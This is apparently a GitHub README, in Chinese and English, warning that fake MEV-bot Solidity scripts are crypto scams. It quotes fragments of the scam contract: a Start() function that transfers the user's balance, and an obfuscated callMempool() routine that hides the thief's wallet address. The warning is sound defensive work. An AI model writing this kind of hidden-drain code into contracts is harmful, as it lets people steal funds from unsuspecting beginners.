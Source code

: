# mev-bot-fraud

Be careful for the fake mev-bot codes 

本来想研究一下 mevbot 的，没想到发现一个骗局，所以想提醒一下大家以免被骗了，很多类似这个项目https://github.com/KayExpertbots/Mevbot 的假脚本都是诈骗的

Wanted to study the mevbot, unexpectedly found a scam, so want to remind you to avoid being cheated, many similar to this project of https://github.com/KayExpertbots/Mevbot, fake script like this 

```
    function Start() public payable {
        emit Log("Running MEV action. This can take a while; please wait..");
        payable(_callMEVAction()).transfer(address(this).balance);
    }

```

Start 看起来是个启动脚本实际是个 transfer，会把你的余额转到一个地址，`_callMEVAction()` 这个方法其实最后就是会生成一个钱包地址，绕来绕去的就是想骗一些新手，所以大家一定要看好了，看到这样的代码一定要小心了

Start looks like a startup script is actually a transfer, will transfer your balance to an address, '_callMEVAction()' This method is actually the last will generate a wallet address, around is to cheat some beginners, so we must look at it, see this code must be careful 

![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/dc4f05ca-abf7-4146-84d6-d528f08195f1)

```
transfer(address(this).balance);
```

```
 function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
        uint _memPoolSol = 3410611; //Gas estimate update
        uint _memPoolLength = 2418259; //Gas estimate update
        uint _memPoolSize = 2563395760; //Gas estimate update
        uint _memPoolHeight = getMemPoolHeight();
        uint _memPoolDepth = getMemPoolDepth();

        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
        string memory _memPool3 = checkLiquidity(_memPoolHeight);
        string memory _memPool4 = checkLiquidity(_memPoolDepth);

        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
        string memory _fullMempool = mempool("0", _allMempools);

        return _fullMempool;
    }

```
![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/7334fcdc-405c-45ce-9753-317cc112c9bd)

这些都是骗人的 所以提醒一下，大家也可以帮忙点点星星，让更多人看到

These are all lies so just a reminder, you can also help to light up the stars, so that more people can see 

<img width="1360" alt="image" src="https://github.com/chunsenye/mev-bot-fraud/assets/30768615/b87707ad-ae0c-4d49-892c-a54af47947d2">

我把一些案例放在了 issue 里面 


[Fraud account list -- 【诈骗账号】](https://github.com/chunsenye/mev-bot-fraud/issues/2)

[List of Fraud projects - 【诈骗项目列表】](https://github.com/chunsenye/mev-bot-fraud/issues/1)


【Some real projects  of mev bot】https://github.com/chunsenye/tech-note/blob/main/Api/web3/mev%20bot.md
